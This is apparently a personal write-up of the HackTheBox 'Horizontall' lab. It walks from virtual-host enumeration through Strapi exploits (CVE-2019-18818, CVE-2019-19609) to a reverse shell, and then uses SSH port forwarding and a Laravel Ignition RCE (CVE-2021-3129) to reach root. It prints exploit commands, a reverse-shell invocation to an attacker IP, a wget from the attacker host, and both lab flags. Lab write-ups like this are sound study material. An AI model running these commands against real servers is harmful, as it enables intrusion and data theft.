

## Reconnaissance

- nmap 
- Gobuster
- Source Code
### Nmap

- nmap result 
    1. Port 22 - SSH 
    2. Port 80 - HTTP


- Strange Point :　


- Unknown Host

```
When I try to access 10.10.11.105
It will redirect to horizontall.htb
but the page will show 
Unknown Host: horizontall.htb (without screenshot)
and the burp also has an error show that .
```


- Add to the hosts and DNS can parse it


- nmap it again


- Access it again 


### Gobuster 
#### Gobuster First time
- Gobuster to scan this site 
    - [Discussion Platform for this challenge give me a hint](https:/rfmirror.com/Thread-Tutorial-HTB-Horizontall-Discussion)
    - Using Vhost
```
# gobuster vhost -u horizontall.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-11000.txt
```


- Find a sub-domain 
```
api-prod.horizontall.htb
```
#### Add it to /etc/hosts
- How to access this sub-domain, 
    - Doing the same thing as I just do for ```horizontall.htb```

- So, add the sub domain to ```/etc/hosts```
```
# 10.10.11.105 horizontall.htb api-prod.horizontall.htb
```


- After adding sub domain to ```/etc/hosts``` file, Let's access this sub-domain in browser 
- It's a easy page with a word - 'welcome'


#### Gobuster again

- Using gobuster to enumerate the path 

```
# gobuster dir -u api-prod.horizontall.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


- So, try to access admin page 


#### Summerize 1
- So far, I find this sub domain page and I know this sub domain site is built up with ```strapi```


#### Information Gathering for **strapi**
- Let's google strapi to find more information 
- At first, I try to find the default credential for strapi framework, but it seems use the account which the user first create to be the admin account .


- [strapi offical Document](https:/strapi.io/blog/strapi-s-user-roles-and-permissions-for-admin-panel)

- Then I try to find the existing vulnerability for strapi .


- Google show me some famous and popular exploit , and I found something valuable to try.
- In ExploitDB, there is a RCE payload which can success execute on the unauthenticated .


- The other one also can be execute on the unauthenticated which can use to  set Password.


- The exploit DB also show me that the CVE number 
    1. CVE-2019-18818
        - strapi before 3.0.0-beta.17.5 mishandles password resets within packages/strapi-admin/controllers/Auth.js and packages/strapi-plugin-users-permissions/controllers/Auth.js.

    2. CVE-2019-19609
        - The Strapi framework before 3.0.0-beta.17.8 is vulnerable to Remote Code Execution in the Install and Uninstall Plugin components of the Admin panel, because it does not sanitize the plugin name, and attackers can inject arbitrary shell commands to be executed by the execa function.

- For the analysis of this vulnerability, I write to another [MD - CVE For Strapi in 2019](https:/hackmd.io/9LNWZLo6RjS6zj6hGlQwjA)

## Exploit 

### Exploit Step - Prepare Payload 

    According to the above gathering, we can try to use the following payload to attack the Strapi.


- So, I keep searching these 2 CVE, and I found the following payload :

#### Payload 

- [First Payload from ExploitDB](https:/www.exploit-db.com/exploits/50239)
- [Second Payload from Github](https:/github.com/diego-tella/CVE-2019-19609-EXPLOIT)


### Remote Code Execution on Unauthenticate envirnment 

- Ｉ use the payload from exploit DB to get the RCE which on the Unauthenticate Environment .


```
# python3 50329.py http:/api-prod.horizontall.htb
```
- Besides the reverse shell, this payload will reset the credential of admin and provide the JWT token 
- The weak point for this payload is the shell cannot do too much thing, actually it even won't return the result of command --> it's a blind RCE 


### Get Reverse shell by the payload which needs jwt token

- So, I used the second payload to get the reverse shell which can return the result of command 

- The second payload needs the jwt token to make the reverse shell success to connect 
```
# python3 exploit.py -d api-prod.horizontall.htb -jwt <jwt token from first payload> -l 10.10.16.49 -p 4444
```


- The nc in attacker's server get the reverse shell


### Get user flag

- After getting into the victim server, I got the low permission control (user : strapi)
- We can move to the user(developer) directory, and get the flag from ```user.txt```.

- Get flag : ```7c6683a7c20ec9be3b4ca5332a6277d0```


## Privilege Escalation 

### Reconnaissance 

- Now, I get the lowest permission in victim server, and try the following things
    1. ```# sudo -l ``` : check there is any program which has root permission can be execute by me 
    
    
    
    2. Check the source code
       
    
    

- About the source code review, I found the 2 interesting point 
    1. authorized_keys for ssh log
        - Can't be used, since I don't have private key to login.
    2. MySQL Database login credential
        - In config directory, there are few of json file and 2 directory (environments and functions)
        ```
        # cd /opt/strapi/myapi/config
        ```
        
        - The more attractive me one is environments directory 
        ```
        # cd environments
        # ls -al 
        ```
        
            
        - Yap, like the screen shot, we got three diffrenct directory which name is (development/production/stagin)
        - I think these 3 are different environment for this project and the most possible one which have special things is development and stagin.
        - So, I move into the development, and find the database.josn, then I got the DB credential 
        ```
        # cat database.json
        ```
        
        
        - I also read the production and stagin, the contents of them are like the following screenshots.
        
        

- So far, I know the application uses the mysql as their Database, but I tried the mysql command, it failed, either.


- I know there is a mysql service, it may run on port 3306 in local, since I didn't find it in the nmap result before
- And now , I can't access it by command ```mysql```
- So, I need to confirm is it really run a mysql service on port 3306
```
# netstat -tulpn | grep LISTEN
```


- Intresting, there is a port 3306 Listening , but the mysql cannot use...
- but there are also two other services run on port 1337 and 8000
- Let's check it with ```curl ``` command 

1. Service runs on Port 1337 is the main page of api-prod.horizontall.htb shows up


2. Service runs on Port 8000 just show a lot of properties of svg and some HTML code 


- but the most useful clue in this service is that service is built on by Laravel 


- On the bottom of this code also shows the version of Laravel (```Laravel v8 / PHP v7.4.18```)


- With this information, we find the following CVE

    - CVE-2021-3129
    

- [Analysis for CVE-2021-3129](https:/hackmd.io/e9RzqlL9QFSjMASwfUjRwA)

### Payload 

- [Payload from Github](https:/github.com/nth347/CVE-2021-3129_exploit/blob/master/exploit.py)
### Privilege Escalation Step

- So far, the information for escalating as below:
    1. The service run on local port 8000 is built up by Laravel version 8 and PHP version 7.4.18
    2. Laravel v8 and PHP v7.4.18 has existing vulnerability - CVE-2021-3129
    3. Existing payload is found

#### Analysis of CVE-2021-3219    
    
    Laravel has a default function : Ignition
    Ignition is used to beautify the stack information 
    It also provide some function like fixing bug with one click (一鍵修復bug)
    The vulnerability is caused by the solution (vendor/facade/ignition/src/Solutions/MakeViewVariableOptionalSolution.php) provided by Ignition don't filter the parameter property.
    Ignition default provide some solutions as follow image （locate in /laravel/vendor/facade/ignition/src/solutions)。

    
    In debug mode, 
    the solution's code 
    (vendor/facade/ignition/src/Solutions/MakeViewVariableOptionalSolution.php) 
    has the following issue on ```file_put_content``` function.


```
$contents = file_get_contents($parameters['viewFile']);
file_put_contents($parameters['viewFile'], $contents);
```
    We can find the main function is : read a specific path 
    ```$parameter['viewFile']```
    Replace the ```$variableName``` in the content to ```$variableName ??```
    Then write back to $parameters['viewFile'] in the file
    Since it call ```file_get_contents()```,
    and the parameter is controlable,
    so we can use phar:/ protocol to trigger the phar deserialize, 
    then further more to achieve the RCE

#### Exploit 

- at first, I think it's not too hard, I just need to run the exploit payload on victim's server
- But I failed, so I try to find out the reason, and I read someone's write up
- He told me that I need to let the local service port forward to remote.
- So, I use ssh, and create my own ssh public key 
```
# ssh-keygen
```
- Don't set up the password for your public key


- I can find the SSH RSA key pair are generated .


- Upload it to victim's server 

```
## On Attacker's server
# python3 -m SimplpeHTTPServer
```
```
## On victim's Server
# wget http:/10.10.16.49:8000/<path of publickey>
```

- Then port forwarding the Laravel service to our server's port by SSH

```
# ssh -i key -L 8000:127.0.0.1:8000  strapi@horizontall.htb
```

- Check the localhost service, we lauch up the service on our port 8000 from victim's server.


### Get root flag 

- Download the exploit code 
```
# git clone https:/github.com/nth347/CVE-2021-3129_exploit.git
```

- Set up the exploit code
```
# chmod +x exploit.py
```


- Execute the exeploit 

```
# ./exploit.py http:/127.0.0.1:8000 Monolog/RCE1 "cat /root/root.txt"
```
- Get root Flag : ``` 25bbd7f2260e744706ebcd166f1cb7a6```


## Reference 

- [Gobuster Command detail](https:/erev0s.com/blog/gobuster-directory-dns-and-virtual-hosts-bruteforcing/)
- [Discussion in Security Platform](https:/rfmirror.com/Thread-Tutorial-HTB-Horizontall-Discussion)
- [Write up](https:/www.getkandg.com/2021/09/horizontall-htb-walkthrough-horizontall.html)
- [Seclist](https:/github.com/danielmiessler/SecLists)
- [strapi offical Document](https:/strapi.io/blog/strapi-s-user-roles-and-permissions-for-admin-panel)
- [ExploitDB - Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated)](https:/www.exploit-db.com/exploits/50239)
- [CVE-2019-18818](https:/cve.mitre.org/cgi-bin/cvename.cgi?name=2019-18818)
- [CVE-2019-19609](https:/cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19609)
- [CVE-2021-3129](https:/cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3129)
- [ExploitDB - Strapi 3.0.0-beta - Set Password (Unauthenticated)](https:/www.exploit-db.com/exploits/50237)
- [Github 1 - CVE-2019-19609](https:/github.com/diego-tella/CVE-2019-19609-EXPLOIT) [V]
- [Github 2 - CVE-2019-19609](https:/github.com/z9fr/CVE-2019-19609)
- [Github - CVE-2021-3129](https:/github.com/nth347/CVE-2021-3129_exploit/)
- [Analysis of CVE-2021-3129_1](https:/www.anquanke.com/post/id/231459)
- [Analysis of CVE-2021-3129_2](https:/www.gushiciku.cn/pl/gQy8/zh-tw)
- [Analysis of CVE-2021-3129_3](https:/www.ambionics.io/blog/laravel-debug-rce)
- [SSH Port Forwarding 1](https:/johnliu55.tw/ssh-tunnel.html)
- [SSH Port Forwarding 2](https:/yu-jack.github.io/2019/01/08/ssh-tunnel/)
- [SSH Port Forwarding 3](https:/linuxize.com/post/how-to-setup-ssh-tunneling/)

###### tags: `HackTheBox` `Vhost` `Vhost Scan` `CVE` `linux`